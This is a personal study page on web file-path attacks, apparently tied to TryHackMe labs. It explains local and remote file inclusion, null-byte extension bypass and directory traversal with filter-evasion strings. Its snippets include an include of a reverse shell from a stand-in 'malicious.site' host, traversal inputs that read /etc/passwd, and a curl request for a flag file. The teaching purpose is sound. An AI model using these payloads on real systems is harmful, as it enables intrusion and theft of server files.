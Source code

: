 # Files/Paths exploits

> It advised to not use potential vulnerable forms to send data, as the data effectively send might not be what you entered.<br>
> Use tools such as [BurpSuite](/cyber/server/web/burpsuite/index.md), or `curl`.

<hr class="sl">

## File inclusion

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

In the following include with no filtering, we may enter a path 

```php
include "lang/$_GET[lang].php"
```

**PHP < 5.3.4**: if the programmer appended an extension, such as `.php`, but you want to bypass it, you can use the **Null Byte** `%00` which indicates the end of a string.

```php
include "xxx.cgi%00.php" // include xxx.cgi
```

</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (avatar.png)
// as your avatar, then
include "lang/../uploads/avatar.png.php"
```

See Path traversal.

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sr">

## Path/directory traversal

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd`/`windows/win.ini`
* ...

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.
</div><div>

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.

**Bypass filters**: if you know that a filter will replace a string, then you may create a string that will do what you want AFTER being filtered, such as `....//`. If the filter is removing `../`, then after filtering `..` and `/` will be concatenated, giving us back `../`.

If there are client-side filtering, you may use [BurpSuite](/cyber/server/web/burpsuite/index.md), or `curl`

```bash
$ curl URL/vulnerable.php -d 'file=/etc/flag1' -H 'Content-Type: application/x-www-form-urlencoded'
```

<p>

If a server is filtering `$_GET`, but uses `$_REQUEST` <small>(merge of GET, and POST, if there are duplicate entries, POST take prevalence)</small>. It looks kinda special, and I hope there is no developer doing that.
</p>
</div></div>